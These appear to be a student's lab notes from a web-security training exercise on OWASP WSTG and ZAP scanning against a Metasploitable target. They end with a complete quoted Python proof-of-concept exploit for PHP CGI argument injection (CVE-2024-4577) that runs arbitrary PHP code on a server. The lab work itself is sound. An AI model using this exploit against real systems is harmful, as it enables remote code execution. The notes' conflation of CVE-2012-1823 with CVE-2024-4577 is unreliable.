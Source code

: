**Protego Security Solutions Task**

There are many organizations that are dedicated to improving cybersecurity. They offer fantastic resources that are really helpful to us here at Protego. OWASP offers many resources and tools that are really awesome. They focus on web application security, so when you do application testing, you will find yourself turning to their resources often.

The OWASP WSTG is an amazing guide to testing for a really wide range of web application vulnerabilities, and offers concrete recommendations for threat mitigation. It is indispensable for making recommendations regarding vulnerabilities that we have discovered in our testing.

You should be familiar with it, so I want you to explore the WSTG website. After you check that out, we will do a brief vulnerability scan using the OWASP ZAP tool so you can see how it can work together with WSTG.

In this lab, you will complete the following objectives:

- Part 1: Investigate the WSTG
- Part 2: Scan a Website and Investigate Vulnerability References

What are the 12 categories of active testing described in the guide?

- Information Gathering
- Configuration and Deployment Management Testing
- Identity Management Testing
- Authentication Testing
- Authorization Testing
- Session Management Testing
- Input validation Testing
- Error Handling
- Cryptography
- Business Logic Testing
- Client-side Testing
- API Testing

metasploitable ip: 
172.17.0.2

https://arstechnica.com/security/2024/06/php-vulnerability-allows-attackers-to-run-malicious-code-on-windows-servers/

**Remote Code Execution – CVE-2012-1823**

PHP code can be injected into a PHP query sting. This code can will execute at the PHP exec.

- Scroll down to the Alert Tags section of the vulnerability. Note the WSTG key and value. Click the value and use the Ctrl-C keys to copy the URL to the clipboard.
- Open a browser and paste the URL in the URL. Navigate to the WSTG site and read about the vulnerability and methods of testing for it. Review this information about the vulnerability to understand what WSTG offers to the penetration tester.

Remote code execution vulnerability (CVE-2012-1823) was caused by an out-of-date version of PHP.

Found an exploit that helped me understand what i was doing wrong, i needed to add -c and then it might work. 

```python
"""
PHP CGI Argument Injection (CVE-2024-4577) Remote Code Execution PoC
Discovered by: Orange Tsai (@orange_8361) of DEVCORE (@d3vc0r3)
Exploit By: Aliz (@AlizTheHax0r) and Sina Kheirkhah (@SinSinology) of watchTowr (@watchtowrcyber) 
Technical details: https://labs.watchtowr.com/no-way-php-strikes-again-cve-2024-4577/?github
Reference: https://devco.re/blog/2024/06/06/security-alert-cve-2024-4577-php-cgi-argument-injection-vulnerability-en/
"""

banner = """			 __         ___  ___________                   
	 __  _  ______ _/  |__ ____ |  |_\\__    ____\\____  _  ________ 
	 \\ \\/ \\/ \\__  \\    ___/ ___\\|  |  \\|    | /  _ \\ \\/ \\/ \\_  __ \\
	  \\     / / __ \\|  | \\  \\___|   Y  |    |(  <_> \\     / |  | \\/
	   \\/\\_/ (____  |__|  \\___  |___|__|__  | \\__  / \\/\\_/  |__|   
				  \\/          \\/     \\/                            
	  
        watchTowr-vs-php_cve-2024-4577.py
        (*) PHP CGI Argument Injection (CVE-2024-4577) discovered by Orange Tsai (@orange_8361) of DEVCORE (@d3vc0r3)
          - Aliz Hammond, watchTowr (aliz@watchTowr.com)
          - Sina Kheirkhah (@SinSinology), watchTowr (sina@watchTowr.com)
        CVEs: [CVE-2024-4577]  """


import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning)
import requests
requests.packages.urllib3.disable_warnings()
import argparse

print(banner)
print("(^_^) prepare for the Pwnage (^_^)\n")

parser = argparse.ArgumentParser(usage="""python CVE-2024-4577 --target http://192.168.1.1/index.php -c "<?php system('calc')?>""")
parser.add_argument('--target', '-t', dest='target', help='Target URL', required=True)
parser.add_argument('--code', '-c', dest='code', help='php code to execute', required=True)
args = parser.parse_args()
args.target = args.target.rstrip('/')


s = requests.Session()
s.verify = False



res = s.post(f"{args.target.rstrip('/')}?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data=f"{args.code};echo 1337; die;" )
if('1337' in res.text ):
    print('(+) Exploit was successful')
else:
    print('(!) Exploit may have failed')
```